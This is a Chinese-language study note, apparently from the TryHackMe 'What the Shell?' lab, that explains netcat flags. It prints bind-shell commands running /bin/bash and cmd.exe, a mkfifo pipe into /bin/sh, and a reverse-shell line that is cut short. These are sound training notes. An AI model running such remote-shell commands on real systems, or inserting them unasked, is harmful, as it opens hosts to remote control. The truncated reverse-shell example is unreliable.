 ## Common Shell Payloads (筆記整理未完全)
在****少部分****的netcat版本中有`-e`的選項可以讓你再啟動listener時執行一個程式。<br>範例如下(bind shell):<br>
```shell=
nc -lvnp <PORT> -e /bin/bash
```
(reverse shell):<br>
```shell=
nc <LOCAL-IP>
```
但是這在大部分的版本中並沒有，因為netcat認為它並不安全。<br>在總是需要static binary的Windows中，這項技術能完美運行。<br>但是在Linux中我們需要使用以下的code來產生bind shell<br>
```shell=
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
named pipe參考文章:https://www.linuxjournal.com/article/2156<br>
`2>&1`<br>
File descriptor 1 => standard output (stdout)<br>
File descriptor 2 => standard error (stderr)<br>
`2>1` 將stderr重新導向到名稱為1的檔案<br>
`2>&1` &表示優先辨識為file descriptor<br>
參考文章：https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean<br>


## 語法解釋
 
```shell=
nc -lvnp <port> -e "cmd.exe"
```
1. nc --> netcat 縮寫
2. -l --> listen mode
3. -v --> verbose (use twice to be more verbose)
4. -n --> numeric-only IP address, no DNS (只接受IP，不接受Domain Name)
5. -p port --> local port number (can be individual or ranges: low-high `inclusive`)
6. -e filename --> specify filename to exec after connect (例子為連線後執行cmd.exe)
:::info
port的選擇可以任意，但低於1024的port號需要管理員權限(sudo)
:::

**<font color=#FF0000>截圖中的listener是以下指令的alias</font>**
```shell=
sudo rlwrap nc -lvnp 443 
```
1. [rlwrap](https://github.com/hanslub42/rlwrap) --> 一種readline wrapper，讓使用者可以透過任意按鍵修改指令(像是上下鍵找之前的指令)。

```shell=
nc <target-ip> <chosen-port>
```
1. 使用netcat連回目標機上我們開啟的監聽端口


## Reference
* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Reverse Shell Cheatsheet  —  The PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [SecList](https://github.com/danielmiessler/SecLists)
* [Shell Scripting – Interactive and Non-Interactive Shell](https://www.geeksforgeeks.org/shell-scripting-interactive-and-non-interactive-shell/)
* Kali linux -- /usr/share/webshells
* TryHackMe -- What the Shell?
